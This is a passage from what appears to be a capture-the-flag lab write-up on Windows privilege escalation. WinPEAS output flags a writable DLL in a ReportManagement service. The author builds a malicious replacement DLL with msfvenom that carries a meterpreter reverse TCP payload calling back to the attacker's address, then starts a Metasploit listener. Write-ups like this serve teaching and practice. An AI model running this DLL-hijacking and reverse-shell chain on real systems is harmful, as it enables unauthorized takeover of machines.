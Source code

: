 
## Privilege Escalation
Winpeas flags the following DLL file (DLL hijacking?).
```bash
ÉÍÍÍÍÍÍÍÍÍÍ¹ Installed Applications --Via Program Files/Uninstall registry--
È Check if you can modify installed software <https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation#software>
    C:\\Program Files\\Common Files
    C:\\Program Files\\desktop.ini
    C:\\Program Files\\dotnet
    C:\\Program Files\\IIS
    C:\\Program Files\\Internet Explorer
    C:\\Program Files\\Microsoft Update Health Tools
    C:\\Program Files\\ModifiableWindowsApps
    C:\\Program Files\\ReportManagement
    ==>  C:\\Program Files\\ReportManagement\\Libraries\\externalupload.dll (devdoc [WriteData/CreateFiles AllAccess])
```

Using netstat in Meterpreter we find out that the ReportManagement exe file is being ran on port 100, if we upload a malicious DLL file called externalupload.dll we can connect to port 100 to execute the payload. Let’s start by generating our malicious DLL file.
```bash
meterpreter > netstat

Connection list
===============

    Proto  Local address       Remote address      State        User  Inode  PID/Program name
    -----  -------------       --------------      -----        ----  -----  ----------------
    tcp    0.0.0.0:80          0.0.0.0:*           LISTEN       0     0      4/System
    tcp    0.0.0.0:100         0.0.0.0:*           LISTEN       0     0      1184/ReportManagement.exe
```

```bash
┌──(kali㉿kali)-[~]
└─$ msfvenom -p windows/x64/meterpreter/reverse_tcp -ax64 -f dll LHOST=10.10.14.205 LPORT=1337  > externalupload.dll
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
No encoder specified, outputting raw payload
Payload size: 510 bytes
Final size of dll file: 9216 bytes
```

Let’s start our listener in Metasploit.
```bash
msf6 > use multi/handler
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set payload windows/x64/meterpreter/reverse_tcp
payload => windows/x64/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > set lhost 10.10.14.205
lhost => 10.10.14.205
msf6 exploit(multi/handler) > set lport 1337
lport => 1337
msf6 exploit(multi/handler) > run

[*] Started reverse TCP handler on 10.10.14.205:1337
```
